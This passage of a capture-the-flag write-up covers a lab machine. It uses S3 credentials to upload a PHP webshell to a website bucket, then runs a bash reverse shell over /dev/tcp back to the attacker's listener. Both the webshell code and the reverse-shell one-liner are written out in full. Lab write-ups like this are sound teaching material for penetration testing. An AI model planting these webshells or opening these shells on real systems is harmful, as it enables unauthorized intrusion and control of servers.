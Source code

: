 If I put that in my local `~/.aws/credentials`, now I can hit this LocalStack from my VM:

```

oxdf@parrot$ aws --endpoint-url http://10.10.11.113:4566 s3 ls
2021-08-26 12:14:44 website

```

### Webshell

With this access to the bucket containing the files from the site running with PHP, I’ll try to write a simple PHP webshell:

```

gobox> echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>'
<?php echo shell_exec($_REQUEST["cmd"]); ?>
gobox> echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>' > /tmp/.0xdf

```

Now I’ll upload that file to the bucket:

```

gobox> aws s3 cp /tmp/.0xdf s3://website/0xdf.php
upload: ../../tmp/.0xdf to s3://website/0xdf.phpile(s) remaining

```

It’s not weird that a website might be [hosted out of an S3 bucket](https://docs.aws.amazon.com/AmazonS3/latest/userguide/HostingWebsiteOnS3Setup.html). It’s a bit odd that that site would be running PHP, but not impossible.

Either the site is hosted from the bucket or there’s some process keeping the bucket and the site in sync, so the webshell shows up instantly on the main site:

![image-20210826141101951](https://0xdfimages.gitlab.io/img/image-20210826141101951.png)

### Shell

This time the host can connect back. I’ll visit:

```

http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

```

And at a listening `nc`, there’s a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.113] 48048
bash: cannot set terminal process group (819): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gobox:/opt/website$ 

```
